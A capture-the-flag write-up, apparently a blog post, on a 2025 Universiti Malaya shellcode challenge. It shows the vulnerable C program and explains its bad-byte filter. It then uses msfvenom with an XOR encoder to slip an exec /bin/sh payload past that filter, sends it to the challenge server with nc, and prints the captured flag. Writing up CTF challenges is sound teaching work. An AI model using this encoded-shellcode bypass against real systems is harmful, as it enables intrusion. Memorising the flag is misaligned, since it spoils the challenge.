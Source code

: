 ```yaml
---
title: "Universiti Malaya CTF 2025"
date: 2025-04-13 
categories: [CTF]
tags: [CTF]
image:
  path: /assets/img/Umcs.jpeg
description: Walkthrough of UM CTF 2025 binary exploitation challenge.


---
```


## 💥 BINARY EXPLOITATION
<br>

## Hint: 🔍🧬Shellcode 

```


#include <sys/mman.h>
#include <sys/prctl.h>
#include <sys/personality.h>
#include <arpa/inet.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>

void *shellcode;
size_t shellcode_size;

void vuln() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, 0, 0);

    puts("Enter 0x1000:");
    shellcode_size = read(0, shellcode, 0x1000);
    for (int i = 0; i < shellcode_size; i++) {
        uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
        if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f) {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
    }

    puts("Executing shellcode!\n");
    ((void(*)())shellcode)();
}

int main() {
    vuln();
    return 0;
}
```
## 🔎 INITIAL OBSERVATION

```
  shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, 0, 0);
```
**This memory setup can be write down instructions and immediately carry them out. The**
**PROT_READ|PROT_WRITE|PROT_EXEC flags together mean this memory can be read from, written to, and run as code.**
```
  if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f) {
            printf("Bad Byte at %d!\n", i);
            exit(1);
        }
```
**This segment of code showing its banning direct system calls like ,syscalls,sysenter and int0x80 a traditional way to make system calls on 32 bit linux.**

```
 puts("Executing shellcode!\n");
    ((void(*)())shellcode)();
```
**If 0x80cd,0x340f,0x050f was called it will showing  bad byte and if no bad byte not appear it** 
**will execute the shellcode.**

---

## 🧨EXPLOITATION ANALYSIS 
```
(luna@faris)-[~/um]
└─$ msfvenom -p linux/x64/exec CMD="/bin/sh" -f raw > babysc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 44 bytes
```
**Im just gonna use the msfvenom on this part.**
```
(luna@faris)-[~/um]
└─$ (cat babysc.bin; cat) | nc 34.133.69.112 10001
Enter 0x1000
Bad Byte at 42!
```
```
(luna@faris)-[~/um]
└─$ hexdump -C babysc.bin
00000000  48 b8 2f 62 69 6e 2f 73  68 00 99 50 54 5f 52 66  |H./bin/sh..PT_Rf|
00000010  68 2d 63 54 52 e8 08 00  00 00 2f 62 69 6e 2f  |h-cTR...../bin/|
00000020  73 68 00 56 57 54 5e 6a  3b 58 0f 05           |sh.VWT^j;X..|
0000002c
```
**I been wondering why its saying bad byte on this and decide to use hexdump on this part and its obviously im** 
**calling direct syscalls on /bin/sh so i decide to use xor encoder to encode the shellcode.** 




```
(luna@faris)-[~/Downloads]
└─$ msfvenom -p linux/x64/exec CMD="/bin/sh" -f raw -e x64/xor -o babysc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Saved as: babysc.bin

(luna@faris)-[~/Downloads]
└─$ hexdump -C babysc.bin
00000000  48 b1 c9 9e 48 81 e9 fa  ff ff ff 48 8d 05 ef ff  |H..H.......H....|
00000010  ff ff bb ef c8 f9 b6 62  b2 97 50 48 31 58 27 48  |....b..b.PH1X'H|
00000020  2d f8 ff ff ff e2 f4 a7  70 d6 d4 0b dc b8 23 87  |-...........p...#.|
00000030  c0 e0 6e 36 ed c5 36 87  e5 9a e2 3c e0 7f 58 ef  |..n6..6......<.X.|
00000040  c8 f9 99 00 db f9 7f 9c  a0 f9 e0 35 e6 c9 3a d4  |............5..:.|
00000050  90 f6 b3 62 b2 97 50                          |...b..P|
00000057
```

**Nice! We can see that its no longer using direct syscalls.**

## 🎉 Result

```
(luna@faris)-[~/um]
└─$ (cat babysc.bin; cat) | nc 34.133.69.112 10001
Enter 0x1000
Executing shellcode!

ls
babysc
flag.txt
limauaiakosong
supgais
```
```
Flag:umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}
```














